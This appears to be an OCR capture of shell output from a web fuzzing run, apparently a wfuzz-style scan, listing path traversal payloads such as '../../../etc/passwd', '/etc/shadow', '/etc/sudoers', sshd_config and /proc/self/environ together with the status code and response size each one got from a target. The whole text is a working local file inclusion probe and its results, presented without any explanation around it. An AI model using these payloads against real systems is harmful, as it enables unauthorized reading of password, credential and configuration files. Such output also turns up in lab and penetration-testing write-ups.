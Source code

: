 ```Shell
000000275:   200        36 L     50 W       1951 Ch     "../../../../../etc/passwd"                                                                                           
000000277:   200        36 L     50 W       1951 Ch     "../../../etc/passwd"                                                                                                 
000000276:   200        36 L     50 W       1951 Ch     "../../../../etc/passwd"                                                                                              
000000274:   200        36 L     50 W       1951 Ch     "../../../../../../etc/passwd"                                                                                        
000000270:   200        36 L     50 W       1951 Ch     "../../../../../../../../../../etc/passwd"                                                                            
000000273:   200        36 L     50 W       1951 Ch     "../../../../../../../etc/passwd"                                                                                     
000000272:   200        36 L     50 W       1951 Ch     "../../../../../../../../etc/passwd"                                                                                  
000000311:   200        36 L     50 W       1951 Ch     "../../../../../../etc/passwd&=%3C%3C%3C%3C"                                                                          
000000413:   500        5 L      37 W       265 Ch      "../../../../../../../../../../../../etc/shadow"                                                                      
000000412:   500        5 L      37 W       265 Ch      "/etc/shadow"                                                                                                         
000000409:   500        5 L      37 W       265 Ch      "/../../../../../../../../../../etc/shadow"                                                                           
000000408:   500        5 L      37 W       265 Ch      "/./././././././././././etc/shadow"                                                                                   
000000400:   200        40 L     117 W      887 Ch      "/etc/rpc"                                                                                                            
000000399:   200        23 L     142 W      920 Ch      "/etc/resolv.conf"                                                                                                    
000000423:   500        5 L      37 W       265 Ch      "/etc/sudoers"                                                                                                        
000000422:   200        122 L    387 W      3252 Ch     "/etc/ssh/sshd_config"                                                                                                
000000498:   200        0 L      0 W        0 Ch        "/proc/interrupts"                                                                                                    
000000504:   200        0 L      0 W        0 Ch        "/proc/net/route"                                                                                                     
000000503:   200        0 L      0 W        0 Ch        "/proc/net/dev"                                                                                                       
000000501:   200        0 L      0 W        0 Ch        "/proc/mounts"                                                                                                        
000000497:   200        0 L      0 W        0 Ch        "/proc/cpuinfo"                                                                                                       
000000502:   200        0 L      0 W        0 Ch        "/proc/net/arp"                                                                                                       
000000500:   200        0 L      0 W        0 Ch        "/proc/meminfo"                                                                                                       
000000499:   200        0 L      0 W        0 Ch        "/proc/loadavg"                                                                                                       
000000505:   200        0 L      0 W        0 Ch        "/proc/net/tcp"                                                                                                       
000000507:   200        0 L      0 W        0 Ch        "/proc/self/cmdline"                                                                                                  
000000510:   200        0 L      0 W        0 Ch        "/proc/version"                                                                                                       
000000509:   200        0 L      0 W        0 Ch        "/proc/self/status"                                                                                                   
000000506:   200        0 L      0 W        0 Ch        "/proc/partitions"                                                                                                    
000000508:   200        0 L      0 W        0 Ch        "/proc/self/environ"                                                                                                  
000000674:   500        5 L      37 W       265 Ch      "/var/log/dmesg"                                                                                                      
```